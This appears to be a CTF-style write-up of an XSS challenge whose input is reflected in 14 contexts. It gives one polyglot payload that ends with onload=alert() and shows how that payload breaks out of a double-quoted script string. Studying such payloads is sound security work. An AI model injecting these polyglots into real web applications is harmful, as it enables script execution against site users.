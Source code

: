 There is a total of 14 places where the input gets reflected, all of which are in a different context.

## TL;DR Solution

Here complete solution to trigger all 14 contexts.

```
"%0Ax=//`//</style></title></math></select></template></textarea><svg+x=*/%0Aonload=alert()//></svg>
```

To better understand the idea of this polyglot, I've made a viasual sketch.

![polyglot overview](/assets//images/twitter/freddyb/polyglot-overview.png)

However, if you'd like to see how all of this fits in detail, then follow along with this article!

## Detailed Solution

### Context #3: Double quotes string

- Code snippet

```html
<script>
    injection = "payload";
</script>
```

- Result from payload

```html
<script>
    injection = ""
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;";
</script>
```
